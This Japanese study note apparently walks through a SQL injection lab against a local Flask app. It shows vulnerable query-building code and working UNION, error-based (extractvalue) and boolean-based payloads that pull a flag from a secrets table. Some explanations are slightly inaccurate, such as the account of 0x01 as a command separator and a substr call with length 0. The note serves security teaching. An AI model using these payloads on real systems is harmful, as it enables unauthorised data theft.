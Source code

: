 ### SQL インジェクション

Web アプリケーションにおいてユーザが指定した値をもとに、SQL を組み立てる際に、その値を適切に処理しないまま SQL 分の一部として利用してしまうことにより、意図しないデータベース操作が可能となる脆弱性

- web1 を参照

  - プログラムには `kv(id, k, v), secrets(id, data)` という 2 つのテーブルがある
  - secrets テーブルにフラグとなる文字列が含まれているので、攻撃して取得する

## SELECT 文における攻撃方法

- UNION 句を用いた攻撃手法
  - SQL 文の実行結果が直接ユーザに返却されるような状況において有効
- Error ベースの攻撃手法
  - SQL 文の実行エラーの内容がユーザに出力されるような場合に有効（意図的に実行エラーを引き起こしエラー分の中に取得したいデータを出力させる)
- Boolean ベースの攻撃手法
  - SQL 文の実行結果は直接ユーザに出力されないものの、実行結果に応じてレスポンスが変化するような状況において有効
    （取得したいデータの 1 文字列目が A なら 0、そうでない場合は 1」と意図的にレスポンスを変化させることを繰り返す）
- Time ベースの攻撃手法

  - SQL 文の実行結果が一切返却されていないような状況で有効。SLEEP 関数を利用し、意図的に応答時間を変化させる
    （取得したいデータの 1 文字目が A なら 1 秒待機、そうでなければ待機しない」と意図的に応答時間を変化させる）

### UNION 句を用いた攻撃手法

- `route_search_index`を攻撃対象とする。

```python
@app.route("/search", methods=["GET"])
def route_search_index():

    key = request.args.get("key")
    if key == None:
        key = ""

    # ユーザからのキーをそのまま結合している
    sql = "select k,v from kv where k like '%" + key + "%';"

    db = get_db()
    try:
        cur = db.cursor()
        cur.execute(sql)

    except Exception as e:
        cur.close()
        return "Error", 500

    data = cur.fetchall()
    cur.close()

    return render_template("index.html", data=data, ndata=len(data))
```

- `select k,v from kv where k like '%" + key + "%';`はユーザからのキーをそのまま結合しているだけなので攻撃できそう
- `select k,v from kv where k like '%" union select 1, data from secrets;`のようなクエリを組み立ててみる
  - 選択しているカラムは k,v の 2 つなので union する際のパディングとして適当な値(1)を指定する必要がある。
- パラメーター key に`' union select 1, data from secrets;#`を渡すとクエリが組み立てられる。

### Error ベースの攻撃手法

http://localhost:5001/

- add の画面で文字列を入力すると 1 文字ごとにリクエストが飛んでいることを確認できる

```python
@app.route("/keyCheck", methods=["GET"])
def route_keycheck_index():

    key = request.args.get("key")
    sql = "select k from kv where k = '" + key + "';"

    db = get_db()
    try:
        cur = db.cursor()
        cur.execute(sql)

    except Exception as e:
        cur.close()
        return str(e), 500

    data = cur.fetchall()

    if len(data) == 0:
        return "not used"

    return "used"
```

- `'`を入力して構文エラーの情報を確認する

```
(1064, "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1")
```

- このエラー文を利用して secrets テーブルのデータをエラー情報中に出力させる

  - MySQL には`UpdateXML関数`や`ExtractValue関数`をうまく利用し、データベース中にある情報を意図的に取り出すことができる。[XML 関数](https://dev.mysql.com/doc/refman/8.0/ja/xml-functions.html)
  - `XPATH`として不適切な場合は出力されないため、`concat関数`を用いて適当な文字列を先頭含ませる。
  - `select k from kv where k = '||extractvalue(null,concat(0x01,(select data from secrets)));#`の SQL 文を完成させたい

- `null, concat(0x01, <expression>) `のような形式でバイナリデータを結合できる。この場合、0x01 はバイナリデータをセパレータとして使用し、攻撃者はその後に悪意のあるコマンドを記述することができる。[メモ](https://scrapbox.io/sugar-dev/SQL%E3%82%A4%E3%83%B3%E3%82%B8%E3%82%A7%E3%82%AF%E3%82%B7%E3%83%A7%E3%83%B3%E3%83%A1%E3%83%A2)
  - セパレータ：バイナリデータを分割するために使用される特殊文字で、攻撃者はセパレータを使用して、SQL インジェクション攻撃を実行するための複数のコマンドを SQL 文に組み込むことができる。

`'%7C%7Cextractvalue%28null%2Cconcat%280x01%2C%28select%20data%20from%20secrets%29%29%29%3B%23`をキーとしてリクエストを送ると、、、

### Boolean ベースの攻撃手法

- エラー時の出力が`Error`になっている(Error ベースの SQL インジェクションが使えなさそう、、、)

```python
@app.route("/keyCheck", methods=["GET"])
def route_keycheck_index():

    key = request.args.get("key")
    sql = "select k from kv where k = '" + key + "';"

    db = get_db()
    try:
        cur = db.cursor()
        cur.execute(sql)

    except Exception as e:
        cur.close()
        return "Error", 500

    data = cur.fetchall()

    if len(data) == 0:
        return "not used"

    return "used"
```

- 取得できる 2 値のみを用いて全体の情報を取得する。（`SUBSTR関数`を用いて一文字ずつ使用済みかを確かめていく）

  - `select k from kv where k = 'notusedkey' or 1=if((select ascii(substr(data,1,0)) from secrets)=65,1,0);`
  - ASCII コードの 65(A)との比較を行い正しければ 1,異なれば 0 を返す
  - アプリケーション側のコードで下記の部分に注目すると、OR 以降の値が偽であれば not used と文字列が出力されることになる

  ```python
      if len(data) == 0:
      return "not used"
  ```

  - これを繰り繰り返すことで文字列の特定が可能になる

- 手動でやるのはめんどいので、、、`python3 ../scripts/sqli-boolean-exploit.py`

- Time ベースの攻撃手法
  - 考え方は boolean ベースのものと同じ感じなので割愛
